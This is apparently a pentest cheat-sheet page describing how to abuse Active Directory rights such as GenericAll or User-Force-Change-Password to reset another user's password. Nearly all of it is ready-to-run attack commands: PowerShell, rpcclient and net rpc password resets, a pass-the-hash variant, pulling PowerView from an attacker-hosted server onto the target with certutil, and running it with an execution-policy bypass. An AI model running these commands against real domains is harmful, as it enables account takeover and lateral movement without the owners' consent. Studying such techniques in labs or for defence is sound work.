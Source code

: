 # ForceChangePassword rights

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.



<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## PowerShell

{% code overflow="wrap" %}
```powershell
$userIdentity = 'CN=Michael Williams,CN=Users,DC=administrator,DC=htb'

Set-ADAccountPassword -Identity $userIdentity -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}



## RPC&#x20;

<pre class="language-bash" data-title="rpcclient"><code class="lang-bash">rpcclient -U DOMAIN.COM/USER DC_IP

<strong>setuserinfo2 USER_TO_CHANGE_PASS 23 'NewPassword123!'
</strong></code></pre>

{% code title="Net" overflow="wrap" %}
```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

# Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
{% endcode %}







## PowerView

Import powerview

{% code title="transfer PowerView" overflow="wrap" %}
```bash
# attack machine
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 80

# target machine windows
certutil -urlcache -f http://IP/PowerView.ps1 PowerView.ps1
```
{% endcode %}

{% code title="Import PowerView" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1
```
{% endcode %}



Now we can force change the micheal's password.

{% code title="Create Password" overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USER', $SecPassword)

```
{% endcode %}

{% code title="Convert pswd in secure string" %}
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
{% endcode %}

{% code title="Set password to user" overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword $UserPassword -Credential $Cred
```
{% endcode %}



